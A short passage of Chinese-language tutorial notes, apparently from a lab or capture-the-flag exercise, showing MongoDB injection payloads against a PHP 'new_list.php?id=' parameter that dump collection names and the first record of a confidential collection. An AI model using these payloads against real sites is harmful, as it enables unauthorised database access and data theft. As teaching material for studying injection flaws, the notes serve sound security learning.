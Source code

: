 ![1645012647787-2354cc19-fe88-4aea-9bde-d0866bcc7023.png](.\SQL注入原理.assets\2504969-20230912132511880-1624057672.png)

~~~sql
爆表： 
/new_list.php?id=1'}); return ({title:tojson(db.getCollectionNames()),content:'1  
db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。
记录表名："Authority_confidential", "notice", "system.indexes"
~~~

![1645012716133-830d0f7c-4b49-41f9-9904-3f1216639ba7.png](.\SQL注入原理.assets\2504969-20230912132514213-2138427310.png)

~~~sql
爆字段：
/new_list.php?id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'1
db.Authority_confidential是当前用的集合（表），find函数用于查询，0是第一条数据
~~~

![1645012843215-556e310f-922c-4526-8437-5c275faa0d0a.png](.\SQL注入原理.assets\2504969-20230912132514717-445053814.png)
